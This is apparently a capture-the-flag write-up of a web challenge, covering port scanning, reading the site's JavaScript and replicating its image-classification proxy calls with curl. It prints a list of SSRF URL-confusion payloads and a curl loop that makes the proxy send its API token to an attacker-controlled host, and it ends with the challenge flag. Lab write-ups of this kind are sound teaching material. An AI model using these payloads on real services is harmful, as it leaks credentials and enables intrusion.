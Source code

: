 # Portscan

Nmap returns the following open ports:

```
PORT      STATE SERVICE
25998/tcp open  unknown
53499/tcp open  unknown
```

After closer inspection, it turned out that both are HTTP servers.

# Checking the sites

The <http://10.10.3.12:25998/> is returning an empty page.

The <http://10.10.3.12:53499/> is returning a website. It is a beta site for pet image classification software with API Explorer.

![](screenshots/1.png)

The main site is communicating with the other port, revealing an another port.

![](screenshots/2.png)

# Javascript

Checking the `app.f9a79fc7.js` javascript reveals more information about the api endpoint. It is sending a multipart form (`image` parameter) to the <http://10.10.3.12:25998/proxy> endpoint with the proxied server as GET parameter (not url encoded) and `X-Playground: true` header.

```js
const e = new FormData;
e.append("image", this.selectedImage);
const t = {headers: {"Content-Type": "multipart/form-data"}};
try {
    let s;
    if (this.apiKey) 
        t.headers.Authorization = `Bearer ${this.apiKey}`, s = await this.$http.post("/classify", e, t); 
    else {
        t.headers["X-Playground"] = "true";
        const a = `/proxy?url=http://${this.siteDomain}/classify`;
        s = await this.$proxy.post(a, e, t);
    }
    this.classificationResult = s.data, this.errorMessage = null;
} catch (s) {
    console.error("Error classifying image:", s), this.errorMessage = s.message, s.response && (this.errorMessage += `: - ${s.response.data}`), this.classificationResult = null;
}
```

# Curl

Replicating the query with curl.

```bash
curl -v -F image=@dog.jpg  -H 'X-Playground: true' 'http://10.10.3.12:25998/proxy?url=http://whoami.honeylab.hu/classify'
curl -v -G -H 'X-Playground: true' 'http://10.10.3.12:25998/proxy?url=http://whoami.honeylab.hu/'
```

Urlencoding the characters also works, it is decoded on the server side.

# Changing the domain

Changing the proxied domain returns `Invalid url`. 

Assuming that the proxy is sending the API key, we can try confusing the parsers.

Based on the [Hacktricks domain confusion](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass#domain-confusion) list:

```bash
domain="whoami.honeylab.hu"
attacker="10.0.1.2:12345"
confuse="
http://$domain@$attacker
http://$domain.$attacker
http://$domain%6D@$attacker
http://$attacker/$domain
http://$attacker/?d=$domain
http://$attacker#$domain
http://$attacker@$domain
http://$attacker#@$domain
http://$attacker%23@$domain
http://$attacker%00$domain
http://$attacker%0A$domain
http://$attacker?$domain
http://$attacker///$domain
http://$attacker\\$domain/
http://$attacker;https://$domain
http://$attacker\\$domain/
http://$attacker\.$domain
http://$attacker/.$domain
http://$attacker\@@$domain
http://$attacker:\@@$domain
http://$attacker#\@$domain
http://$attacker\anything@$domain/
" 
while IFS= read -r line; do curl -v -G -H 'X-Playground: true' "http://10.10.3.12:25998/proxy?url=$line"; done <<<"$confuse"
```

This sends back to us the token, which is itself the flag.

![](screenshots/3.png)

# Flag

cq23{n3ver_p4rS6_URL5_w1th_r3g3x_1066f6cec9dd3d4274940c52a8d1b3d0}